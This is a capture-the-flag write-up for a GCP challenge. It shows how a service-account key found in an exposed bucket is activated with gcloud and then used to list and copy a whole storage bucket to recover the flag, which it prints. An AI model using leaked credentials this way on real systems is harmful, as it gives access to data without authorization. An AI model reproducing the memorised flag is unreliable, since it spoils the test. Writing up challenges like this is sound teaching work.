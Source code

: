 # Out of the Bucket 2
> This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!

## About the Challenge
We got a exposed bucket GCP and inside the bucket there's a GCP credentials

![preview1](images/preview1.png)

![preview2](images/preview2.png)

## How to Solve?
First, we need to deploy Google Cloud SDK docker

```bash
docker run -it gcr.io/google.com/cloudsdktool/cloud-sdk:latest /bin/bash
```

And then inside the container, import the GCP credential

```bash
gcloud auth activate-service-account image-server@out-of-the-bucket.iam.gserviceaccount.com --key-file=file.json
gcloud config set project out-of-the-bucket
```

If we ran `gcloud storage list` command, we will see there are 2 buckets:

![ls-buckets](images/ls-buckets.png)

Hmmm we `flag-images` bucket looks interesting, try to download every file inside that bucket using this command

```
gsutil -m cp -r gs://flag-images .
```

![cp-buckets](images/cp-buckets.png)

This will download the file recursively and the flag is located in the `xa.png` file

![flag](images/flag.png)

## Flag
```
uoftctf{s3rv1c3_4cc0un75_c4n_83_un54f3}
```